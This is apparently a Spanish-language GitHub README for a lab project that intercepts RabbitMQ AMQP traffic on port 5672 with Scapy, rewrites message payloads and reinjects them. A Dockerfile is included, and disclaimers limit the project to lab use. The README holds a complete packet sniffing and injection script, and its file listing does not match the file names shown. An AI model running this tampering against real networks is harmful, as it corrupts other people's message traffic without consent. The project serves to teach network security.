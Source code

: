 
# 🧃🐇 AMQP Packet Chaos con Scapy (SOLO FINES EDUCATIVOS)

🚨 **Disclaimer:**  
Este proyecto es SOLO con fines educativos, para entender cómo interceptar/modificar/inyectar tráfico AMQP usando Scapy. NO lo uses en redes ajenas. No seas bobo: usa entornos de laboratorio.

## 📂 Estructura
```
.
├── docker-compose.yml
├── el_enviador/
│   ├── Dockerfile
│   ├── Insaneador.py
├── el_espameado/
│   ├── Dockerfile
│   ├── Insaneado.py
├── el_sniffer/
│   ├── Dockerfile
│   ├── modificador.py
```
## 🚀 Qué hace
- Levanta RabbitMQ
- Envía/recibe mensajes
- `Scapy_scripts` intercepta paquetes AMQP (5672)
- Modifica payload
- Reinyecta paquetes modificados

## 🧃 sniffer.py
```python
from scapy.all import *
import time

print("🧃 Scapy interceptor ready...")

def packet_callback(packet):
    if packet.haslayer(TCP) and packet[TCP].dport == 5672:
        print(f"📦 Original packet: {packet.summary()}")
        if Raw in packet:
            original = packet[Raw].load
            modified = b"HACKED_" + original
            packet[Raw].load = modified
            del packet[IP].chksum
            del packet[TCP].chksum
            send(packet)
            print(f"🚨 Packet modificado e inyectado: {packet.summary()}")

sniff(filter="tcp port 5672", prn=packet_callback, store=0)
```

## 🧃 Dockerfile Scapy_scripts
```dockerfile
FROM python:3.11-slim

RUN apt-get update && apt-get install -y tcpdump iproute2 iputils-ping && pip install scapy

WORKDIR /app
COPY sniffer.py .
CMD ["python", "sniffer.py"]
```

## 🧃 Disclaimer
**SOLO LABORATORIO. SOLO PRUEBAS. NO A LAS ILEGALIDADES EXPLOSIVAS.**
